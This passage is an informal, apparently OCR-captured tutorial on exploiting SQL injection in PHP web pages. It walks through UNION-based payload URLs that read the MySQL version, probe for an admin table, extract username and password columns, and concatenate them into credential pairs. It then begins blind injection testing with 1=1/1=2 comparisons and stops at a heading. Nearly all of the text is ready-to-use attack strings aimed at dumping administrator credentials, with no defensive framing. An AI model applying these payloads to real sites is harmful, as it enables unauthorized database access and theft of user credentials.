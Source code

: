 1. so we replace 3 with @@version or version()

http://www.website.com/articles.php?id=3 union all select 1,2,@@version,4/*

2. and now we have the version in the screen!

3. lets go now to get tables and columns names


# Getting tables and columns names :

here we have a job to do!!
if the MySQL Version is < 5 (i.e 4.1.33, 4.1.12...)

1. lets see that the table admin exist!

http://www.website.com/articles.php?id=3 union all select 1,2,3,4,5 from admin/*

2. and here we see the number 3 that we had in the screen
now, we knows that the table admin exists

3. here we had to check column names:

http://www.website.com/articles.php?id=3 union all select 1,2,username,4,5 from admin/*

4. if we get an error we have to try another column name, and if it work we get username displayed on screen (example: admin,moderator,super moderator...)

5. after that we can check if column password exists, we have this

http://www.website.com/articles.php?id=3 union all select 1,2,password,4,5 from admin/*

6. and oups! we see password on the screen in a hash or a text, 
now we have to use 0x3a for having the informations like that username:password ,dmin:unhash...

http://www.website.com/articles.php?id=3 union all select 1,2,concat(username,0x3a,password),4,5 from admin/*

7. this is the sample SQL Injection , now, we will go to the blind sql injection (more difficult)


# Exploiting Blind SQL Injection Vuln :

1. first we should check if website is vulnerable for example

http://www.website.com/articles.php?id=3

2. test the vulnerability we had to use

http://www.website.com/articles.php?id=3 and 1=1 ( we havn't any error and the page loads normally)

3. and now

http://www.website.com/articles.php?id=3 and 1=2

4. here we have some problems with text, picture and some centents ! and it's good! this website is vulnerable for Blind SQL Injection
we have to check MySQL Version

# Getting MySQL Version :
